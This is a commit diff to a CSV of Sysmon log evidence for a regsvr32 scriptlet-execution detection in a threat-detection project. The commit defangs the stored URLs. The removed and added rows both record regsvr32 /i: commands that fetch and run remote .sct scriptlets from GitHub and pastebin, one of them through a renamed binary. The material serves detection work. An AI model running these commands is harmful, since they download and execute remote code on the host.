

Before and after one commit to rahman56661/cyberion-threatshield, a CSV file: results/evidence/DET-004_regsvr32_scriptlet_exec.csv, drawn as a sheet.

Commit message:
Reproduced on Windows: fix parser paths; defang evidence strings

```diff
--- a/results/evidence/DET-004_regsvr32_scriptlet_exec.csv
+++ b/results/evidence/DET-004_regsvr32_scriptlet_exec.csv
@@ -1,11 +1,11 @@
 _file,TimeCreated,Computer,EventID,Image,ParentImage,CommandLine
-AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx,2019-07-19 14:53:42.815966+00:00,MSEDGEWIN10,1,C:\Windows\System32\cmd.exe,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,"""C:\Windows\system32\cmd.exe"" /c ""regsvr32.exe /s /u /i:C:\AtomicRedTeam\atomics\T1117\RegSvr32.sct scrobj.dll"""
-AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx,2019-07-19 14:53:42.841951+00:00,MSEDGEWIN10,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\cmd.exe,regsvr32.exe  /s /u /i:C:\AtomicRedTeam\atomics\T1117\RegSvr32.sct scrobj.dll
-AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx,2019-07-19 14:53:44.026062+00:00,MSEDGEWIN10,1,C:\Windows\System32\cmd.exe,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,"""C:\Windows\system32\cmd.exe"" /c ""regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll"""
-AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx,2019-07-19 14:53:44.054071+00:00,MSEDGEWIN10,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\cmd.exe,regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll
-AutomatedTestingTools/panache_sysmon_vs_EDRTestingScript.evtx,2019-07-29 21:33:44.268288+00:00,MSEDGEWIN10,1,C:\Windows\System32\cmd.exe,C:\Windows\System32\cmd.exe,cmd  /c regsvr32.exe /s /u /i:https://raw.githubusercontent.com/op7ic/EDR-Testing-Script/master/Payloads/Cmstp_calc.sct scrobj.dll
-AutomatedTestingTools/panache_sysmon_vs_EDRTestingScript.evtx,2019-07-29 21:33:44.641176+00:00,MSEDGEWIN10,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\cmd.exe,regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/op7ic/EDR-Testing-Script/master/Payloads/Cmstp_calc.sct scrobj.dll
-Execution/exec_sysmon_1_7_jscript9_defense_evasion.evtx,2019-05-18 17:51:14.254967+00:00,IEWIN7,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\svchost.exe,/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
-Execution/exec_sysmon_1_lolbin_renamed_regsvr32_scrobj.evtx,2019-05-12 18:48:52.219755+00:00,IEWIN7,1,C:\ProgramData\jabber.exe,C:\Windows\System32\cmd.exe,jabber.exe  /u /s /i:http://pastebin.com/raw/H4A4iDTA .\jabber.dll
-Execution/exec_sysmon_lobin_regsvr32_sct.evtx,2019-05-12 18:35:05.155949+00:00,IEWIN7,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\cmd.exe,regsvr32.exe  /u /s /i:http://pastebin.com/raw/H4A4iDTA scrobj.dll
-Persistence/sysmon_1_persist_bitsjob_SetNotifyCmdLine.evtx,2019-05-13 18:03:19.681479+00:00,IEWIN7,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\svchost.exe,/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
+AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx,2019-07-19 14:53:42.815966+00:00,MSEDGEWIN10,1,C:\Windows\System32\cmd.exe,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,"""C:\Windows\system32\cmd.exe"" /c ""regsvr32.exe /s /u /i:C:\AtomicRedTeam\atomics\T1117\RegSvr32.sct scrobj[.]dll"""
+AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx,2019-07-19 14:53:42.841951+00:00,MSEDGEWIN10,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\cmd.exe,regsvr32.exe  /s /u /i:C:\AtomicRedTeam\atomics\T1117\RegSvr32.sct scrobj[.]dll
+AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx,2019-07-19 14:53:44.026062+00:00,MSEDGEWIN10,1,C:\Windows\System32\cmd.exe,C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe,"""C:\Windows\system32\cmd.exe"" /c ""regsvr32.exe /s /u /i:hxxps://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj[.]dll"""
+AutomatedTestingTools/PanacheSysmon_vs_AtomicRedTeam01.evtx,2019-07-19 14:53:44.054071+00:00,MSEDGEWIN10,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\cmd.exe,regsvr32.exe  /s /u /i:hxxps://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj[.]dll
+AutomatedTestingTools/panache_sysmon_vs_EDRTestingScript.evtx,2019-07-29 21:33:44.268288+00:00,MSEDGEWIN10,1,C:\Windows\System32\cmd.exe,C:\Windows\System32\cmd.exe,cmd  /c regsvr32.exe /s /u /i:hxxps://raw.githubusercontent.com/op7ic/EDR-Testing-Script/master/Payloads/Cmstp_calc.sct scrobj[.]dll
+AutomatedTestingTools/panache_sysmon_vs_EDRTestingScript.evtx,2019-07-29 21:33:44.641176+00:00,MSEDGEWIN10,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\cmd.exe,regsvr32.exe  /s /u /i:hxxps://raw.githubusercontent.com/op7ic/EDR-Testing-Script/master/Payloads/Cmstp_calc.sct scrobj[.]dll
+Execution/exec_sysmon_1_7_jscript9_defense_evasion.evtx,2019-05-18 17:51:14.254967+00:00,IEWIN7,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\svchost.exe,/u /s /i:hxxps://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj[.]dll
+Execution/exec_sysmon_1_lolbin_renamed_regsvr32_scrobj.evtx,2019-05-12 18:48:52.219755+00:00,IEWIN7,1,C:\ProgramData\jabber.exe,C:\Windows\System32\cmd.exe,jabber.exe  /u /s /i:hxxp://pastebin.com/raw/H4A4iDTA .\jabber.dll
+Execution/exec_sysmon_lobin_regsvr32_sct.evtx,2019-05-12 18:35:05.155949+00:00,IEWIN7,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\cmd.exe,regsvr32.exe  /u /s /i:hxxp://pastebin.com/raw/H4A4iDTA scrobj[.]dll
+Persistence/sysmon_1_persist_bitsjob_SetNotifyCmdLine.evtx,2019-05-13 18:03:19.681479+00:00,IEWIN7,1,C:\Windows\System32\regsvr32.exe,C:\Windows\System32\svchost.exe,/u /s /i:hxxps://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj[.]dll
```
Also changed, not shown: results/evidence/COR-004_bitsadmin_abuse_corr.csv, results/evidence/DET-005_rundll32_proxy_exec.csv, 37 other files.
